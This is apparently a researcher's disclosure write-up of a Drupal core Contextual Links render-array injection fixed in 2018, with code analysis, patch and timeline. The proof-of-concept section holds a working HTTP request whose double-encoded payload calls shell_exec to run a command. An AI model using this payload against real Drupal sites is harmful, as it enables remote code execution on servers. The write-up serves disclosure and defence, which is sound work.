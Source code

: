 ```yaml
---
layout: default
title: Drupal Core PHP Code Injection
categories: security
---
```


# Drupal Core PHP Code Injection

## Drupal Overview and History

Drupal is a content management system used by 6% of the top 10,000 websites ([source](https://trends.builtwith.com/shop/open-source/traffic/Top-10k)). It is particularly popular in government, and as of 2021 it was used by [56% of the world's government websites](https://www.acquia.com/blog/drupal-for-government).

In March of 2018, a vulnerability dubbed Drupalgeddon2 was announced ([CVE-2018-7600](https://nvd.nist.gov/vuln/detail/cve-2018-7600), [SA-CORE-2018-002](https://www.drupal.org/sa-core-2018-002)) that enabled an unauthenticated attacker to achieve remote code execution on most versions of Drupal with default configuration.

The vulnerability was caused by Drupal's [render arrays](https://www.drupal.org/docs/drupal-apis/render-api/render-arrays). Render arrays are just ordinary PHP arrays, except that keys that start with # are given special processing that allow code execution by design. These generally aren't meant to come from user input, so the Drupal maintainers patched this by implementing a broad [RequestSanitizer](https://github.com/drupal/drupal/blob/8.6.1/core/lib/Drupal/Core/Security/RequestSanitizer.php). The sanitizer runs early in the page load and strips array keys that begin with # from the query string.

Additional paths for exploitation were found in April 2018 ([SA-CORE-2018-004](https://www.drupal.org/sa-core-2018-004)) and the RequestSanitizer was expanded to process the request body and cookies as well.

## Search
The knowledge that something like Drupalgeddon2 could be lurking in the codebase for so long motivated me to begin looking for my own RCE in Drupal in my free time.

I made a spreadsheet of every URL route in Drupal and initially focused on routes available to unauthenticated users. After a few weeks without success, I started looking at routes that required low-level user permissions, and pretty quickly found an issue in the core Contextual Links module.

## Vector
The [Contextual Links module](https://www.drupal.org/docs/8/core/modules/contextual/working-with-contextual-links) enables users to edit content or perform other tasks while browsing their site without navigating to the administrator UI.

![Person using contextual links module](/assets/contextual-menu.gif "Image from Drupal.org under the <a href='https://www.drupal.org/terms'>Creative Commons License, Attribution-ShareAlike 2.0</a>")

As the functionality is used in several different contexts, the controller that handles rendering them is very generic.

```php
  /**
   * Returns the requested rendered contextual links.
   *
   * Given a list of contextual links IDs, render them. Hence this must be
   * robust to handle arbitrary input.
   */
  public function render(Request $request) {
    $ids = $request->request->get('ids');
    if (!isset($ids)) {
      throw new BadRequestHttpException(t('No contextual ids specified.'));
    }

    $rendered = [];
    foreach ($ids as $id) {
      $element = [
        '#type' => 'contextual_links',
        '#contextual_links' => _contextual_id_to_links($id),
      ];
      $rendered[$id] = $this->renderer->renderRoot($element);
    }

    return new JsonResponse($rendered);
  }
```

We can see that user input from the `ids` parameter in the request POST body is processed by `_contextual_id_to_links` before being added to a render array. The render array is then rendered and the result is returned to the user. Let's look at `_contextual_id_to_links`.

```php
/**
 * Unserializes the result of _contextual_links_to_id().
 *
 * @see _contextual_links_to_id
 *
 * @param string $id
 *   A serialized representation of a #contextual_links property value array.
 *
 * @return array
 *   The value for a #contextual_links property.
 */
function _contextual_id_to_links($id) {
  $contextual_links = [];
  $contexts = explode('|', $id);
  foreach ($contexts as $context) {
    list($group, $route_parameters_raw, $metadata_raw) = explode(':', $context);
    parse_str($route_parameters_raw, $route_parameters);
    $metadata = [];
    parse_str($metadata_raw, $metadata);
    $contextual_links[$group] = [
      'route_parameters' => $route_parameters,
      'metadata' => $metadata,
    ];
  }
  return $contextual_links;
}
```

Here we see the user-provided id is split into three parts separated by :. The latter two parts are then passed through the PHP [parse_str](https://www.php.net/manual/en/function.parse-str.php) which treats them as a URL-encoded query string.

At this point it might seem like all we need to do is pass a double-URL-encoded query string in for one of these parameters and we'll have our render array injection, but if I recall correctly, that didn't work. However, the metadata parameter receives further processing later on that provides another avenue.

```php
/**
 * Implements hook_contextual_links_view_alter().
 *
 * @see \Drupal\contextual\Plugin\views\field\ContextualLinks::render()
 */
function contextual_contextual_links_view_alter(&$element, $items) {
  if (isset($element['#contextual_links']['contextual'])) {
    $encoded_links = $element['#contextual_links']['contextual']['metadata']['contextual-views-field-links'];
    $element['#links'] = Json::decode(rawurldecode($encoded_links));
  }
}
```

By passing a JSON encoded array for the `contextual-views-field-links` subparameter of `metadata`, we can inject a render array while evading the `RequestSanitizer`.

## Proof of Concept
The POC below requires the ‘Access Contextual Links' permission to be granted to unauthenticated users.

```http
POST /contextual/render HTTP/1.1
Host: local.test
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 906

ids[]=contextual::contextual-views-field-links=%257B%250A%2520%2520%2520%2520%2522asdf%2522%253A%250A%2520%2520%2520%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2522title%2522%253A%2520%257B%2522%2523lazy_builder%2522%253A%2520%255B%2522shell_exec%2522%252C%2520%255B%2522touch%2520%252Ftmp%252Fhellofromviews%2522%255D%255D%257D%252C%250A%2520%2520%2520%2520%2520%2520%2520%2520%2522href%2522%253A%2520%2522asdf%2522%252C%250A%2520%2520%2520%2520%2520%2520%2520%2520%2522attributes%2522%253A%250A%2520%2520%2520%2520%2520%2520%2520%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2522class%2522%253A%255B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2522use-ajax%2522%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%255D%250A%2520%2520%2520%2520%2520%2520%2520%2520%257D%250A%2520%2520%2520%2520%257D%250A%257D
```

The payload corresponds to a double-URL-encoding of this:

```json
{
    "asdf":
    {
        "title": {"#lazy_builder": ["shell_exec", ["touch /tmp/hellofromviews"]]},
        "href": "asdf",
        "attributes":
        {
            "class":[
                "use-ajax"
            ]
        }
    }
}
```

When the array is rendered, shell_exec is called and a file is created in the tmp directory as proof.

## Patch
The issue was patched by returning an HMAC code along with the contextual links id list at the time it's generated, and then taking that code as an additional parameter at render time and validating it.

## Timeline
* August 29, 2018 08:50 PM - Reported to Drupal security team
* August 30, 2018 12:57 AM - Report validated by Drupal security team
* October 17, 2018 - Fix released in Drupal 8.5.8 and Drupal 8.6.2 ([DRUPAL-SA-CORE-2018-006](https://www.drupal.org/sa-core-2018-006))

